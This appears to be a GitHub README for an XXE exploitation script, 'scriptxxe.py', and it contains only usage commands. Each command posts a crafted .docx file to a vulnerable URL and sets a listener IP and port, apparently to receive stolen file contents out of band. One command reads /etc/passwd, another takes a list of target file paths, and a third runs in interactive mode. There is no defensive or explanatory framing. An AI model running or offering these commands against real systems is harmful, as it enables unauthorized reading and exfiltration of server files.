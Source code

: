 # legendary-train
## File paths
```
rlwrap python3 scriptxxe.py -u http://vulnURL -l X.X.X.X -p 8181 -t toto.docx -D 'name=toto&email=zob&submit=Submit Query' --paths-file one-path-per-line-file.txt
```
## File path in arg
```
rlwrap python3 scriptxxe.py -u http://vulnURL -l X.X.X.X -p 8181 -t toto.docx -D 'name=toto&email=zob&submit=Submit Query' -P /etc/passwd
```
## Interactive mode
```
rlwrap python3 scriptxxe.py -u http://vulnURL -l X.X.X.X -p 8181 -t toto.docx -D 'name=toto&email=zob&submit=Submit Query'
```

